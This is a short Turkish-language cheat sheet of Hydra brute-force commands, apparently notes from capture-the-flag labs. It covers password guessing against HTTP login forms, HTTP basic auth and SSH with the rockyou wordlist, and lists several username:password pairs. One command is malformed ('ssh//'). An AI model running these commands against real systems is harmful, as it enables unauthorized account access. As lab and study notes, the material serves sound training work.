 *** Login için BruteForce ***
```bash
hydra -L users.txt -P passwords.txt <HEDEF_IP> http-post-form "/login.php:username=^USER^&password=^PASS^:F=Hatalı Giriş" -V
```
http-get bruteforce
```bash
hydra -l admin -P '/wordlists/rockyou.txt' 10.10.222.132 http-get /inferno -s 80 -I
```
*** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```
claire-r:Password1

chris-r:letmein

jill-v:sunshinel

barry-b:sandwich

``` bash
hydra -C file ssh//10.10.1.1 -T4 
```
